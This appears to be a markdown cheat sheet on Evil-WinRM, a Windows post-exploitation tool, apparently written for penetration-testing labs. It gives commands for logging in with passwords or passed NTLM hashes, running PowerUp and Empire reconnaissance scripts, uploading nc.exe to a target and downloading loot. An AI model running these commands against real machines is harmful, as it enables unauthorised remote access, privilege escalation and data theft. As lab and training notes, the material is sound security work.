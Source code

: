 # Evil-WinRM

Evil-WinRM is a powerful post-exploitation tool for interacting with Windows systems over WinRM (Windows Remote Management).

---

## Prerequisites

- Target machine must have **WinRM enabled** (default ports: 5985/5986).
- Valid credentials:
  - Username
  - Password **or** NTLM hash
- Evil-WinRM installed on your system.
- (Optional) A directory with PowerShell scripts for post-exploitation.

---

## Syntax Overview

- **With Password:**

```bash
evil-winrm -i <target_ip> -u <username> -p <password>
```

- **With NTLM Hash:**

```bash
evil-winrm -i <target_ip> -u <username> -H <NTLM_hash>
```

- **With Script Directory:**

```bash
evil-winrm -i <target_ip> -u <username> -H <NTLM_hash> -s /path/to/scripts
````

> **Empire C2 Modules Path (PowerShell Scripts):**  
> `/usr/share/powershell-empire/empire/server/data/module_source/situational_awareness/network/`  
> Example: `Invoke-Portscan.ps1`, `Invoke-Portscan -Hosts 10.200.81.100 -TopPorts 50`

---

### Explanation of Options

| Option | Description                                          |
|--------|------------------------------------------------------|
| `-i`   | IP address of the target Windows machine             |
| `-u`   | Username                                              |
| `-p`   | Plaintext password                                    |
| `-H`   | NTLM hash (no password needed)                        |
| `-s`   | Local path to scripts for use in the session          |

---

### Example Scenario

- Target IP: `10.10.10.123`
- Username: `administrator`
- NTLM Hash: `cc36cf7a8514893efccd332446158b1a`
- Script Directory: `~/winrm-scripts`

Command:

```bash
evil-winrm -i 10.10.10.123 -u administrator -H cc36cf7a8514893efccd332446158b1a -s ~/winrm-scripts
````

---

### Running Scripts Inside the Session

- Load and run interactively:

  ```powershell
  . .\PowerUp.ps1
  Invoke-AllChecks
  ```

- One-time execution:

  ```powershell
  powershell -file PowerUp.ps1
  ```

---

### File Transfer Commands

- **Upload** a file to the target:

  ```bash
  upload <local_file_path> [remote_file_name]
  ```

  Example:

  ```bash
  upload ../../../../../usr/share/windows-binaries/nc.exe nc.exe
  ```

- **Download** a file from the target:

  ```bash
  download <remote_file_path> [local_file_name]
  ```

  Example:

  ```bash
  download C:\Users\Administrator\Desktop\loot.txt
  ```

---

### Additional Notes

- Only the **NTLM** portion of an LM\:NTLM hash pair is needed.
- Make sure port **5985 (HTTP)** or **5986 (HTTPS)** is open.
- Use `--ssl` if connecting over HTTPS.
- Useful local tools are also located at:

  ```bash
  /usr/share/windows-binaries/
  ```
